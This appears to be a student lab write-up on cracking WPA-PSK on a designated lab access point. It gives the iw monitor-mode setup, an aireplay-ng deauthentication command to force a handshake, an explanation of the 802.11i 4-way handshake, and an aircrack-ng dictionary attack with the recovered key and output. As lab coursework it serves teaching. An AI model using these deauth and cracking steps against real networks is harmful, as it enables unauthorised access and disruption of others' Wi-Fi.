



# Question 2: Cracking WPA-PSK

## Terminology
* N6 = Node 6
* N15 = Node 15
* ST = Stepping Stone
* PC = local pc at home

## a) Getting the dump

Date of Capture: Tuesday, 10th January 2017, 19:50

### Setup

* N6: change monitor interface channel to CH1: `iw wlan1 set channel 1`
* N6: Scan For WPA Node: `iw wlan0 scan`

	Output: (trunc):
	
	```
	BSS 00:1b:b1:02:01:4e(on wlan0)
		TSF: 285225550977 usec (3d, 07:13:45)
		freq: 2412
		beacon interval: 100 TUs
		capability: ESS (0x0431)
		signal: -58.00 dBm
		last seen: 15760 ms ago
		Information elements from Probe Response frame:
		SSID: WirelessLab_WPA_Crack_Me
	```
	

* N6: check for monitor mode: `iw wlan1 info`
	Output:
	
	```
	Interface wlan1
	ifindex 6
	wdev 0x100000002
	addr a8:54:b2:71:d3:5d
	type monitor
	wiphy 1
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 19.00 dBm
	txpower 19.00 dBm
	```
	
	* in monitor mode: check!
	* on channel 1: check!


* PC: Start dump on remote N6 (node6) via ProxyJump on ST:

	`ssh node6 tcpdump -U -i wlan1 -w - | wireshark -k -i -`
	
	After capture save to file manually on PC.
	
We captured all traffic on Channel 1 to get an overview of the trace.
There were some EAPOL message exchanges but unfortunately only the first
two messages. In order to capture a full 4-Way-Handshake we provoked 
a deauthentification. To do so we looked again into the the trace to 
find already associated STA that we can deauth. In particular we were looking
for data packets and we found one with the MAC Address `00:1b:b1:02:01:39`.

* N6: Sending deauth frames:

	`aireplay-ng -0 1 -a 00:1b:b1:02:01:4e -c 00:1b:b1:02:01:39 wlan1`
	
	Output (trunc):
	
	```
	Waiting for beacon frame (BSSID: 00:1B:B1:02:01:4E) on channel 1
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 3|
	``` 

	
	

### Analysing the Beacons

Screenshot of Wireshark showing an Beacon frame from the WPA AP:



There are three different types of communications requiring a cipher suite:

* Multicast Cipher Suite: AES (CCM) is offered here
* Unicast Cipher Suite: AES (CCM) is offered here
* Auth Key Management: PSK is offered here

### Analysing the Authentification Process

Screenshot of Wireshark showing the management frames used to authenticate and associate:



First an Authentification frame is sent from the STA to the AP.
If the AP accepts the request it send another Authentificaton frame 
back to the STA with a status code of "0".

The STA then sends an Association Request to the AP, which the AP replies
with an Association Response

### Analysing the 4-Way Handshake

Screenshot of Wireshark showing many 802.1X-2004 handshake messages:



In this trace we have a full 4-way handshake with other handshake fractals caused by the deauth burst. The handshake is transported over EAPOL-key frames.
More Information: 802.11i Standard

The security policies are obtained from the APs beacons or probes.

Initially both AP and STA have the same PMK (Pairwise Master Key)

* Message 1:

	The authentificator (AP) sends a random number known as ANONCE 
	to the client
	
	supplicant (STA) has now all information to compute the PTK 
	(Pairwise Transient Key) with a pseudo-random function (PRF)
	
* Message 2:

	The supplicant sends the SNONCE together with the MIC (Message Integrity Code),
	since it already has the PTK
	
	The authentificator can now compute the PTK and check its integrity with the MIC
	
* Message 3:

	If neccessary the authentificator generates a GTK (Group Transient Key) for 
	multicast frames and sends it encrypted with the PTK
	
* Message 4:

	The supplicant sends an acknowledgement frame to the authentificator that
	GTK is installed

This approach is immune against replay attacks because the session is encrypted
by the PTK, which itself is never communicated over the channel nor all information
that can compute the PTK.

## b) Cracking WPA PSK

Using aircrack-ng we have to provide a passwordlist. aircrack uses all the words
in that list and tries each one out to find the WPA Key. We know from the task that the WPA key is an english word in all lowercase letters. So we use a dictionary file found in the internet (`english3.txt`)

Source: [http://www.gwicks.net/textlists/english3.zip](http://www.gwicks.net/textlists/english3.zip)

PC: `aircrack-ng -w english3.txt -b 00:1B:B1:02:01:4E handshake.pcap`

* -w = argument is the wordlist
* -b = argument is bssid of the AP (Authentificator)
* handshake.pcap = the trace file which contains the handshake

Output: 

```
                   [00:01:05] 130412 keys tested (2068.59 k/s)


                           KEY FOUND! [ xylophone ]


      Master Key     : D8 88 C1 D4 A6 1B 2F 7F F0 CF E3 6A 22 39 A3 34
                       06 05 6F 8A 9D F1 3D 22 9E CC E6 5F FF 2B 94 07

      Transient Key  : E7 BC 72 BD 44 E0 1F 5F 71 88 A4 A4 E8 52 E5 EC
                       98 CD 35 BE 4E 54 68 FA 30 73 F8 4E AB 2C E7 2C
                       FC 15 D6 0F CF A1 E1 28 4B 47 E9 14 AC EB 1A 8F
                       9D DA 8A 0A 4A C8 A5 BD 27 F1 B6 85 BF 12 61 37

      EAPOL HMAC     : 9B A6 EE E7 3E 80 8D 73 86 FF 93 8E A9 81 A1 36
```


As we see here we found the key which is `xylophone`

It is important to capture the 4-way handshake to get all information to
calculate the PTK for a given dictionary entry in order to check it against
the MIC.

